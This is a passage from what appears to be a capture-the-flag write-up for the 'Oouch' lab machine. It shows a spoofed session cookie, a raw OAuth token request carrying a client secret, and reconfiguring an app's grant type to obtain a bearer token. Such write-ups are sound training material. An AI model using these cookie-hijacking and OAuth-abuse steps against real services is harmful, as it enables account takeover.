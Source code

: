 Let's request http://authorization.oouch.htb:8000/ but with qtc's cookie.

We are now logged in as qtc:

![](https://i.imgur.com/WOeWna9.png)

As listed on the home page there is a token endpoint but it seems not reachable with GET, so let's try a POST (as explained in Oracle oAuth doc anyway). The doc also tells us which params to use.

```
POST /oauth/token/ HTTP/1.1
Host: authorization.oouch.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: sessionid=08lyfd5lxftdn9v5gd7knjxok4unsf0e; csrftoken=w8Q1tZ5XGQnYIfsjJMNksuQoCg5yYHOtkiWHEK2j8Xsu4ti75whbRr32oLBxC6bZ
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 223

grant_type=client_credentials&client_id=ZOm8R6GdrX3CacO5mvG3pVuSYcKQWXrpN8aSCDuX&client_secret=Wy3JSx7w98SUgoKC1SldvjndEVATgXnoh7WgkLWNkWSWlgnxUniRqHbIRsGAZvxsMQUo1bB2XojK3jNZ7lCCpdIBIkCXspP4H2SveQ3GXHd49F3ACp3mgFddkIcmDJAs```

We receive this error:

```json
{"error": "unauthorized_client"}
```

So let's log as `cyfun2` again, access the app params (http://authorization.oouch.htb:8000/oauth/applications/2/) and change _Authorization Grant Type_ to `client-credentials`.

Now we can spoof qtc cookie again and retry.

This time we obtain a much better answer:

```json
{
  "access_token": "Xkuzgir8C38MeCv2xyq08PFMDF5NwX",
  "expires_in": 600,
  "token_type": "Bearer",
  "scope": "read write"
}
```

### Get qtc SSH key

Let's remember of `o_auth_notes.txt`:

```
/api/get_user -> user data. oauth/authorize -> Now also supports GET method.
```
